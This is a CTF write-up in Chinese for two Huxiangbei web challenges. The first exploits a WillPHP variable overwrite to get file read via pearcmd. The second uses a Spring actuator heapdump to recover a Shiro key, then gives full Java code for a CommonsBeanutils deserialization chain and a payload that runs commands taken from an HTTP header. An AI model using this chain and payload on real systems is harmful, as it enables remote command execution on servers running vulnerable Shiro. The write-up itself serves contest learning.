 # 湖湘杯WP



## web1



前半段是一个变量覆盖，题目给出assign其实已经很显眼了，要结合view一起看，这个类似TP的那个变量覆盖

我们可以先看到View这个文件的代码：

```php
<?php
/**
 * 框架视图类
 * @copyright 2020-2021 WillPHP
 * @author NoMind<24203741@qq.com/113344.com>
 * @version WillPHPv2
 * @since 2021-09-16
 */ 
namespace wiphp;
//defined('WPHP_URI') or die('Access Denied');
class View {
	private static $vars = [];
	private function __construct() {}
	private function __clone() {}
	public static function assign($name, $value = null) {
		if ($name != '') self::$vars[$name] = $value;
	} 
	private static function getViewFile($file = '') {
		$path = __MODULE__;
		if ($file == '') {
			$file = __ACTION__;
		} elseif (strpos($file, ':')) {
			list($path, $file) = explode(':', $file);
		} elseif (strpos($file, '/')) {
			$path = '';
		}
		$path = strtolower($path);
		$pfile = ltrim($path.'/'.$file, '/').'.html';		
		if (!THEME_ON) {
			$vfile = PATH_VIEW.'/'.$pfile;
		} else {
			$vfile = PATH_VIEW.'/'.__THEME__.'/'.$pfile;
			if (file_exists($vfile)) {
				$vfile = PATH_VIEW.'/default/'.$pfile;
			}
		}
		return $vfile;			
	}	
	public static function fetch($file = '', $vars = []) {
		if (!empty($vars)) self::$vars = array_merge(self::$vars, $vars);			
		$viewfile = self::getViewFile($file);
		if (file_exists($viewfile)) {
			array_walk_recursive(self::$vars, 'self::parseVars'); //处理输出
			define('__RUNTIME__', round((microtime(true) - START_TIME) , 4));	
			Template::render($viewfile, self::$vars);
		} else {
			App::halt($file.' 模板文件不存在。');
		}
	}	
	//删除反斜杠
	private static function parseVars(&$value, $key) {
		$value = stripslashes($value);
	}
}
```



当我们调用assign和view的时候其实分别会调用到fetch这两个函数，当我们调用assign对vars进行了一次赋值，而在调用fetch的时候会进入到Template::render($viewfile, self::$vars);当中

跟进两次之后会在Template找到如下：

![image-20211115115049058](https://gitee.com/yyssllz/pic/raw/master/image-20211115115049058.png)



很明显的变量覆盖，下面还紧跟了一个cfile，这样的话前半段很显然就是用cfile可以达成任意文件读取的效果

![image-20211115115841088](https://gitee.com/yyssllz/pic/raw/master/image-20211115115841088.png)

，后半段利用pearcmd即可，这里在我[别的文章](https://github.com/ysllz/Blog/issues/15)里面已经写过了故不再赘述了



## web2

又又又是JAVA，又是不写前端的JAVA，和深育杯那个一样我都快看吐了，因为靶机已经关了所以基本只能靠口述了

pentest in Autumm因为pom中存在这个依赖，可以访问到actuator路由，之后能够找到heapdump，利用非授权访问吧内存文件dump下来 

```
;/actuator/heapdump
```

 https://www.cnblogs.com/icez/p/Actuator_heapdump_exploit.html ![img](https://gitee.com/yyssllz/pic/raw/master/KsMoxv6EHkh12xgg.png!thumbnail) 能够找到key：![img](https://gitee.com/yyssllz/pic/raw/master/xt8Gj9x7Y8sbgbFz.png!thumbnail)跟着文章复现一下得到：POtxXgM0EC42xSvJ4CZQDw== 网上找了工具一把锁：https://github.com/j1anFen/shiro_attack![img](https://uploader.shimo.im/f/AiWFxk0AA3MFH2ch.png!thumbnail?accessToken=eyJhbGciOiJIUzI1NiIsImtpZCI6ImRlZmF1bHQiLCJ0eXAiOiJKV1QifQ.eyJhdWQiOiJhY2Nlc3NfcmVzb3VyY2UiLCJleHAiOjE2MzY5NDkxMDgsImciOiJjeXhjUWczcXd2NlJKZDNKIiwiaWF0IjoxNjM2OTQ4ODA4LCJ1c2VySWQiOjI4MDg0NzYzfQ.cAi3GvNBuaVGb_flJ82-tPtWB6IBiO2-hr-76RBX__Y)

后半段除了一把梭其实也可以用深育杯的🔒出来，为什么呢，因为是这道题目一样的，有CB链但是没有CC，这样的话应该也可以，但是毕竟可惜的是当时交完去看XSS了没有功夫再试试看了



```java
package com.cb;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

import java.util.Comparator;
import java.util.PriorityQueue;
//byte[] code = ClassPool.getDefault().get("exp").toBytecode();
public class cb {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception{
        //创建TemplateImpl 对象动态加载字节码
        byte[] code = ClassPool.getDefault().get("com.cb.exp").toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj,"_name","HelloTemplatesImpl");
        setFieldValue(obj,"_class",null);
        setFieldValue(obj,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(obj,"_bytecodes",new byte[][]{code});

        //创建BeanComparator
        Comparator comparator = new BeanComparator(null,String.CASE_INSENSITIVE_ORDER);

        //创建PriorityQueue实例
        PriorityQueue priorityQueue = new PriorityQueue(2,comparator);
        priorityQueue.add("1");
        priorityQueue.add("2");
        //设置属性
        setFieldValue(comparator,"property","outputProperties");
        setFieldValue(priorityQueue, "queue",new Object[]{obj,obj});

        ByteArrayOutputStream baor = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baor);
        oos.writeObject(priorityQueue);
        oos.close();
//        System.out.println(new String(Base64.getEncoder().encode(baor.toByteArray())));
        byte[] key = Base64.decode("POtxXgM0EC42xSvJ4CZQDw==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(baor.toByteArray(), key);
        System.out.printf(ciphertext.toString());

    }
}

```

exp为：

```java
package com.cb;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.lang.reflect.Method;
import java.util.Scanner;

public class exp extends AbstractTranslet {
    static {
        try {
            Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method m = c.getMethod("getRequestAttributes");
            Object o = m.invoke(null);
            c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            m = c.getMethod("getResponse");
            Method m1 = c.getMethod("getRequest");
            Object resp = m.invoke(o);
            Object req = m1.invoke(o); // HttpServletRequest
            Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            getHeader.setAccessible(true);
            getWriter.setAccessible(true);
            Object writer = getWriter.invoke(resp);
            String cmd = (String)getHeader.invoke(req, "cmd");
            String[] commands = new String[3];
            String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
            if (System.getProperty("os.name").toUpperCase().contains("WIN")) {

                commands[0] = "cmd";
                commands[1] = "/c";
            } else {

                commands[0] = "/bin/sh";
                commands[1] = "-c";
            }
            commands[2] = cmd;
            writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(),charsetName).useDelimiter("\\A").next());
            writer.getClass().getDeclaredMethod("flush").invoke(writer);
            writer.getClass().getDeclaredMethod("close").invoke(writer);
        }
        catch (Exception e){

        }

    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

